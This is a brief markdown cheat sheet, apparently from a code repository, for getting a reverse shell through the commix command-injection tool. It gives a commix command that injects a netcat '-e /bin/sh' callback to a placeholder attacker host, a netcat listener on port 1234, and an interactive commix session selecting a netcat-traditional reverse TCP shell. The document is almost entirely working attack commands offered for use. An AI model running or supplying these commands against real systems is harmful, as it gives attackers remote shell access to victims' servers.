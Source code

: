Commix Reverse Shell
====================
Technique 1
-----------
```bash
commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```

Technique 2
-----------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
